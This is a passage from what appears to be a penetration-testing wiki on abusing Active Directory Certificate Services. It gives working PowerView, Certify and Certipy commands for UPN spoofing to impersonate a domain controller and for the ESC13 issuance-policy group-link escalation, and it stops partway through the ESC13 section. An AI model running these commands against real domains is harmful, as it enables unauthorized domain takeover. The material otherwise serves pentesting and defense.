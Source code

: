 ```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@domain.local'} -Verbose
```

A certificate permitting client authentication can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

:::


### (ESC13) Issuance policiy with privileged group linked

For a group to be linked to an issuance policy via `msDS-OIDToGroupLink` it must meet two requirements:

* Be empty
* Have a universal scope, i.e. be "Forest Wide". By default, "Forest Wide" groups are "Enterprise Read-only Domain Controllers", "Enterprise Key Admins", "Enterprise Admins" and "Schema Admins"

So, if a user or a computer can enroll on a template that specifies an issuance policy linked to a highly privileged group, the issued certificate privilegies will be mapped to those of the group.

To exploit ESC13, here are the requirements:

* The controlled principal can enroll to the template and meets all the required issuance policies
* The template specifies an issuance policy
* This policy is linked to a privileged groups via `msDS-OIDToGroupLink`
* The template allows the Client Authentication in its EKU
* All the usual requirements

::: tabs

=== UNIX-like

From UNIX-like systems, this [pull request](https://github.com/ly4k/Certipy/pull/196) on Certipy (Python) permits to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty. Additionally, it verifies if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.

```bash
certipy find -u '$USER@$DOMAIN' -p '"$PASSWORD' -dc-ip '$DC_IP'
```

If a vulnerable template is found, there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, request a certificate for this template with [Certipy](https://github.com/ly4k/Certipy) (Python) as usual:

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Vulnerable template'
```
